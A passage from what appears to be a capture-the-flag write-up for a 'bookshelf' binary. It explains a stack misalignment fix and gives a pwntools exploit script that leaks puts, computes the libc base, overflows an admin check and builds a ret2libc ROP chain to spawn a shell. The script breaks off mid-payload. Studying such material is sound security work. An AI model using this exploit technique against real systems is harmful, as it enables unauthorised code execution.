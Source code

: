 ```console
[*] Process './bookshelf' stopped with exit code -11 (SIGSEGV) (pid 1811608)
[*] Got EOF while sending in interactive
```

Wait what?! This should have worked right? Our ROP chain is perfect, also all offsets are correct, so why didn't it work.

During the challenge, I couldn't think of anything, so I changed the ROP chain from `system('/bin/sh')` to `execve('/bin/sh', 0, 0)` and it worked.

But eventually I figured out that it was a simple case of stack misalignment, my initial payload was perfect, all I had to do was, insert a `ret` gadget before the ROP chain.

So here's the final exploit code:

```python
from pwn import *

p = process('./bookshelf')

libc = ELF('/usr/lib/libc.so.6')

# LEAK PUTS
log.info('Leaking puts...')
for _ in range(8):
    p.sendline(b'2')    # Go to bookshop
    p.sendline(b'2')    # Buy/Attempt to buy a book
    p.sendline(b'y')    # Leave tip

p.sendline(b'2')    # Go to bookshop
p.sendline(b'3')    # Read value of puts()
p.sendline(b'N')    # No need to leave any more tip

leak = p.clean()    # Read everything till now
leak = b''.join(word for word in leak.split(b' ') if word.startswith(b'0x'))    # Filter the text for the memory address

puts = int(leak, 16)
log.success('Puts found @ ' + hex(puts))

libc_base = puts - libc.symbols['puts']
log.success('libc base @ ' + hex(libc_base))

# GET ADMIN ACCESS
p.sendline(b'1')            # Write a book
p.sendline(b'y')            # Write an audiobook
p.sendline(b'A' * 100)      # Overwrite the admin access check variable.

# OVERFLOW ADMIN WRITE
log.info('Sending payload...')

p.sendline(b'3')     # Write an admin book

## Prepare the payload
offset = 56
rop = ROP(libc)

payload  = b''
payload += b'A' * offset
payload += p64( libc_base + rop.find_gadget(['ret']).address )
payload += p64( libc_base + rop.find_gadget(['pop rdi', 'ret']).address )
payload += p64( libc_base + next(libc.search(b'/bin/sh')) )
payload += p64( libc_base + libc.symbols['system'] )
# Since we are good programmers, let's also add a clean exit after buffer overflow :P
payload += p64( libc_base + rop.find_gadget(['pop rdi', 'ret']).address )
```